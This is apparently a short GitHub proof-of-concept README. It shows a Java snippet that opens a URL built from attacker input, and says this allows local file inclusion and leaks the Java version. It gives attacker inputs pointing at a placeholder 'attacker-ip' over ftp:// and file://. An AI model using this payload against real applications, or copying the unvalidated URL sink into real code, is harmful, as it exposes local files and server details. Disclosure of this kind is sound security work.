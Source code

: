 # java-file-ftp
POC for leaking java version thrrough file and ftp protocols

Consider a java web application using URL class to make a connection as below


```java
import java.net.*;
import java.io.*;
public class Main
{
      public static void main(String[] args) throws Exception{

            URL url = new URL(attackerinput);
            System.out.println(url.getProtocol());


            StringBuilder stringBuilder = new StringBuilder();

            DataInputStream dis = new DataInputStream(url.openConnection().getInputStream());
            String inputLine;

            while ((inputLine = dis.readLine()) != null) {
                System.out.println(inputLine);
            }
            dis.close();

        }
}

```

we can get an LFI using file protocol and also we can get the java version of the running application using file or ftp 

so our attackerinput will be ftp://attacker-ip:port/file or file://attacker-ip:port/file . 



